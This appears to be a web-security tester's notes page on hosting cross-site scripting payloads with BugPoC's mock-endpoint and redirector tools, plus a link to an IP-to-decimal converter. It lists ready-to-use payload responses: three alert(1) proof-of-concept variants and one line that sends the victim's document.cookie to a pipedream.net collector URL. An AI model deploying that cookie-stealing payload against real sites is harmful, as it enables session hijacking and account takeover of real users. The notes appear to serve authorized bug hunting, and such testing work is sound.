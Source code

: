 ## IPv4 to IP Decimal Conversion<br>
[Link](https://www.ipaddressguide.com/ip)

---
## Create an endpoint or Connection redirector

[Link (Create an endpoint)](https://bugpoc.com/testers/other/mock)

[Link (Connection redirector)](https://bugpoc.com/testers/other/redir)

> Example

```txt
Response Headers >
{
  "Access-Control-Allow-Origin":"*",
  "Content-Type":"application/javascript"
}

Response Body >
window.parent.alert(1)

url : https://wv34ypjnazur.redir.bugpoc.ninja
```
```txt
Response Headers >
{
  "Access-Control-Allow-Origin":"*",
  "Content-Type":"application/javascript"
}

Response Body>
window.top.alert(1)

url : https://p93yp8ell2os.redir.bugpoc.ninja
```
```txt
Response Headers >
{
  "Access-Control-Allow-Origin":"*",
  "Content-Type":"application/javascript"
}

Response Body >
alert(1)

url : https://nq5h16dpmbg2.redir.bugpoc.ninja
```
```txt
Response Headers >
{
  "Content-Type":"application/javascript"
}

Response Body >
location.href = "https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f"+document.cookie

url : https://x6nbuhdfsr89.redir.bugpoc.ninja 
```

---